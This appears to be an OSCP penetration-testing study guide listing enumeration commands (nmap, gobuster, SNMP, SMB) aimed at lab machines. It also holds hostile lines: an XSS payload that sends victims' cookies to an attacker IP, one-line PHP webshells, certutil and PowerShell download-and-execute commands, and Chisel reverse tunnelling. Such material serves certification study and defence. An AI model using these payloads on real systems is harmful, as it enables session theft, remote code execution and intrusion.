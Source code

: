 # OSCP
OSCP Study Guide

## Table of Contents

## Enumeration and Recon

### NMAP:

Legend: 
```
-sN TCP Null Scan reveals the status of ports without directly querying them
-sV: Probe open ports to determine service/version info
-sC: equivalent to --script=default
-sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
-sU: UDP Scan
-O: Enable OS detection
-g/--source-port <portnum>: Use given port number
-oA <basename>: Output in the three major formats at once
-A: Enable OS detection, version detection, script scanning, and traceroute
--version-light: Limit to most likely probes (intensity 2)
```

Examples Commands:

```
nmap -sC -sV -oA nmap\machine 10.10.10.1
```
```
nmap -A -T4 -p- -oA nmap\machine 10.10.10.1
```

UDP Scanning:

```
nmap -sU -oA nmap\machine_udp
```

Vulnerability Scanning:

```
sudo nmap --script vuln 10.11.1.10
```

### subdomain enumeration

```
dig axfr @10.10.10.13 cronos.htb
```

### Web Enumeration

Nikto scanning:

```
nikto -h http://10.10.10.1
```

Directory busting with different tools:

DIRB

```
dirb http://10.10.10.1
```

Gobuster

```
gobuster dir -u http://10.129.155.74:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x aspx
```

### Pentesting Website Applications

XSS Payloads:
Cheatsheet: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

Basic XSS form testing with either netcat listener or python web server
```
<img src=http://10.10.16.10/pwn.jpg/>
```

Cross Site scripting to dump base64 cookies. Make sure to url encode in burp with ctrl + u
```
<img src=x onerror=this.src='http://10.10.16.10/?cookies='+btoa(document.cookie) />
```
### Webshells

Reference: https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html

Simple PHP webshell for command execution

```
<?php system($_REQUEST ['cmd']) ?>
```

```
<?php system($_GET['cmd']); ?>
```

### Pentesting SNMP

Port 161 UDP

```
snmpwalk -c public -v2c 10.129.213.210
```

```
snmp-check 10.129.213.210
```

### Pentesting SMB

```
crackmapexec smb 10.129.70.254 
```

Detect anonymous shares that are open

```
smbclient -L //10.129.70.254
```

Null Authentication

```
smbclient -N -L //10.129.70.254
```

## Post Exploitation

### Downloading and Transferring Files

Certutil:

```
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

PowerShell:

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

```
powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.11.0.4/nc.exe')"
```

## Port forwarding and tunneling

Using Chisel:

Example using port forwarding so port 910 is available on kali box
```
on victim machine setup port forwarding
chisel.exe client 10.10.16.10:5555 R:910:127.0.0.1:910
```

```
On Kali attack box setup a reverse listner for port forward with chisel
./chisel server --port 5555 --reverse
```

